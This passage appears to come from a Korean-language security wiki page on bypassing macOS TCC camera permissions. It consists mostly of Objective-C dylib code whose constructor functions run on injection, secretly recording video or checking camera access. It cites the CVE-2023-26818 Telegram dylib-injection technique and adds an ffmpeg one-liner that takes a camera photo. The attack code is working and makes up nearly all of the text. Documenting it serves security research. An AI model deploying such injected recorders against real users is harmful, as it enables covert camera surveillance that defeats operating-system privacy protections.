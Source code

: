 ```objectivec
NSLog(@"Recording finished successfully. Saved to %@", outputFileURL.path);
}
}
@end
__attribute__((constructor))
static void myconstructor(int argc, const char **argv) {
freopen("/tmp/logs.txt", "a", stderr);
VideoRecorder *videoRecorder = [[VideoRecorder alloc] init];
[videoRecorder startRecording];
[NSThread sleepForTimeInterval:3.0];
[videoRecorder stopRecording];
[[NSRunLoop currentRunLoop] runUntilDate:[NSDate dateWithTimeIntervalSinceNow:3.0]];
fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="ObjectiveC - Check" %}
프로그램이 카메라에 접근할 수 있는지 확인합니다.
```objectivec
#import <Foundation/Foundation.h>
#import <AVFoundation/AVFoundation.h>

// gcc -framework Foundation -framework AVFoundation -dynamiclib CamTest.m -o CamTest.dylib
// Code from https://vsociety.medium.com/cve-2023-26818-macos-tcc-bypass-with-telegram-using-dylib-injection-part1-768b34efd8c4

@interface CameraAccessChecker : NSObject
+ (BOOL)hasCameraAccess;
@end
@implementation CameraAccessChecker
+ (BOOL)hasCameraAccess {
AVAuthorizationStatus status = [AVCaptureDevice authorizationStatusForMediaType:AVMediaTypeVideo];
if (status == AVAuthorizationStatusAuthorized) {
NSLog(@"[+] Access to camera granted.");
return YES;
} else {
NSLog(@"[-] Access to camera denied.");
return NO;
}
}
@end
__attribute__((constructor))
static void telegram(int argc, const char **argv) {
freopen("/tmp/logs.txt", "a", stderr);
[CameraAccessChecker hasCameraAccess];
fclose(stderr); // Close the file stream
}
```
{% endtab %}

{% tab title="Shell" %}
카메라로 사진 찍기
```bash
ffmpeg -framerate 30 -f avfoundation -i "0" -frames:v 1 /tmp/capture.jpg
```
{% endtab %}
{% endtabs %}

